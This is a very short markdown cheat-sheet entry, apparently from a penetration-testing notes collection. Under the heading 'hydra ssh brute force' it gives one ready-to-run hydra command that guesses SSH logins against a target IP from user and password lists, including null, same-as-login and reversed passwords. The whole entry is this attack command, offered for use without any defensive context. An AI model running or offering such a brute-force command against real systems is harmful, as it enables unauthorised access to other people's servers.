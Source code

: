 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

# Related

Tags:
    #assorted
